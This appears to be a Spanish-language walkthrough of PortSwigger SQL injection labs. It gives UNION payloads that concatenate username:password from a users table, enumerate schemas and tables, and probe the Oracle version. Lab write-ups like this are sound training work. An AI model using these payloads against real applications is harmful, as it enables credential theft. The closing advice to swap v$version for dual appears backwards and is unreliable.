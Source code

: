 ```mysql
' union select concat(username,':',password),NULL from database.users-- -
```

### Lab: SQL Injection UNION attack, retrieving multiple values in a single column

Aqui nos dice casi lo mismo de antes, que saquemos las credenciales listando las columnas para registrarnos en la pagina web...

```mysql
' union select schema_name,NULL from information_schema.schemata-- -
```

```mysql
' union select table_name,NULL from information_schema.tables where table_schema='public'-- -
```

```mysql
' union select concat(username,':',password),NULL from users-- -
```

o

```mysql
' union select username||':'||password,NULL from users-- -
```

### Lab: SQL Injection attack, querying the database type and version on Oracle

URL (Oracle SQL Injection) = https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/OracleSQL%20Injection.md

Al ser en `Oracle` cambian algunos detalles a la hora de hacer este tipo de inyecciones...

Nos va a dar `ERROR` si ponemos lo siguiente ya que nos estamos enfrentando ante un `Oracle`...

```mysql
' union select NULL,NULL-- -
```

Pero como estamos en `Oracle` para que nos funcione eso de aqui arriba, tendriamos que hacer lo siguiente...

```mysql
' union select NULL,NULL from dual-- -
```

Eso de `from dual` es una regla que se tiene que cumplir al ser `Oracle` y para hacer las otras inyecciones como lo que nos piden aqui que es ver la version y base de datos de esa pagina web hariamos lo siguiente...

Si nos vamos a la ayuda que nos da de la misma pagina de los creadores de `PortSwigger` encontrariamos esto de `Oracle`...

```
SELECT banner FROM v$version
```

Por lo que tendriamos que cambiar uno de los `NULL` por `banner` y donde pone `v$version` lo cambiaremos por `dual`...
